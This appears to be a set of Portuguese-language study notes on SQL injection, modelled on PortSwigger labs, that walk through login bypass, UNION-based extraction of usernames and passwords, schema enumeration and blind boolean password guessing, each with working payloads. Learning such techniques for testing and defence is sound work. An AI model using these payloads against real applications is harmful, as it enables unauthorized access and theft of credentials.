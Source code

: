 # SQL Injection

## SQL Injection

### Retrieving hidden data

Exemplo:

```sql
SELECT * FROM products WHERE category = 'category' AND released = 1 
```

A restrição para acessar ou não um item é restrito pelo parâmetro `released`

Um exemplo para poder acessar dados que um usuário comum não poderia:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Um exemplo para poder acessar o dados de todas as tablas:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```

### Subverting application logic

Um exemplo de um login em uma query onde a entrada não é processado antes de fazer sua busca:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

É possível comentar a comparação da senha, assim é possível entrar em qualquer usuário.


```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```

### Retrieving data from other databases tables

Em casos onde a chamada do SQL retorna respostas com a aplicação, é possível acessar dados de outras tabelas usando a palavra chave `UNION` executando um `SELECT` adicional.

Um exemplo onde a entrada não é tratada:

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

É possível rodar o comando para receber os usuários e a senha de na tabela de usuários:

```sql
' UNION SELECT username, password FROM users--
```

#### UNION Attacks

Para esse ataque funcionar é necessário essas duas condições:

* As buscas individuais precisam retornar o mesmo número de colunas
* o tipo de data de cada coluna precisa ser compatível entre as buscas individuais

Normalmente para a execução desse ataque é descobrir a resposta para essas perguntas:

* Quantas colunas são retornadas pela busca original?
* Quais são os tipos de dadaos para cada query original?

##### Quantas colunas são retornadas pela busca original?

###### Método 1

Esse método usa várias buscas `ORDER BY N --` incrementando o número `N`, quando o número exceder o número de colunas o banco de dados vai retornar um erro:

Exemplo de erro:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

###### Método 2

Esse método usa várias buscas `'UNION SELECT NULL, NULL,...--` e enquanto número de queries não for o mesmo do banco de dados um erro será retornado.

Exemplo de erro:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

* `Oracle`: cada `SELECT` precisa de um `FROM` para especificar uma tabela válida. Existe uma tabela built-in chamada `dual` que poder ser usada. Um exemplo de como eles seriam executados: `' UNION SELECT NULL FROM DUAL --`

* `MySQL`: os payloads no `MySQL` precisam ser seguidos por um espaço, ou também é possível usar o caractere `#` para identificar um comentário.

##### Quais são os tipos de dados para cada query original?

Sabendo qual é o tamanho da busca é possível tentar descobrir qual das buscas suporta o tipo de dado `string`

Exemplo de teste:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Caso o tipo de data não seja compatível vai causar um erro no banco de dados, por exemplo:

```sql
Conversion failed when converting the varchar value 'a' to data type int.
```

##### Usando o ataque UNION para acessar dados sensíveis

Supondo que a busca retorne duas colunas que conseguem guardar dados de `string`, no exemplo abaixo tentamos pegar os campos `username` e `password` da tabela `users`:

```sql
' UNION SELECT username, password FROM users-- 
```

Obs: Precisamos descobrir o nome da tabela e de seus campos

##### Retornando múltiplos valors de uma única coluna

Supondo que a coluna retorne apenas uma coluna é possível retornar múltiplos valores juntos, idealmente incluíndo um separador para que seja possível distinguir as informações.

Na `Oracle` por exemplo você pode usar o payload (os operadores `||` são concatenações, e as duas buscas vão vir separadas pelo caractere `~`):

```sql
' UNION SELECT username || '~' || password FROM users--
```

Os resultados vão permitir que você consiga ler todos os nomes e senhas, por exemplo:

```
administrator~s3cure
wiener~peter
carlos~montoya
```

Para outros bancos de dados temos o [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Examinando o banco de dados

#### Buscando a versão e o tipo de Banco de Dados

Bancos de dados diferentes vão exigir diferentes tipos de buscas para determinar o tipo e a versão do banco de dados

Por exemplo, para pegar a versão do banco de dados do MySQL poderia ser usado a injeção abaixo:

```
' UNION SELECT @@version--
```

#### Listando os conteúdos do banco de dados

A maioria dos Bancos de Dados (Exceção da Oracle) tem um conjunto de visualizações chamados de *information schema* que provê informações do banco de dados

Pegar todas as informações:

```
SELECT * FROM information_schema.tables
```

Pegar apenas a coluna dos usuários:

```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

#### Listando os conteúdos do banco de dados Oracle

Pegar todas as informações:

```
SELECT * FROM all_tables
```

Pegar apenas a coluna dos usuários:

```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

### Injeção SQL às cegas

A injeção SQL às cegas aparece quanto o banco de dados é vulnerável à SQL injection, mas a resposta HTTP não contém resultados relevantes da busca SQL ou de qualquer detalhe de erro do banco de dados.

Muitos ataques como UNION attack não são mais tão efetivos, já que se baseiam na resposta HTTP

#### Explorando Injeção SQL às cegas ativando respostas condicionais

Fazendo uma injeção SQL no site dessas duas formas:

```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

Podemos ver que a primeira vai retornar um resultado positivo enquanto a segunda busca vai resultar em um resultado negativo

Usando essas comparações podemos, por exemplo, comparar se o primeiro caractere da senha do `Administrador` é maior que `m`:

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

E ir comparando os caracteres do Administrador até descobrir a senha dele
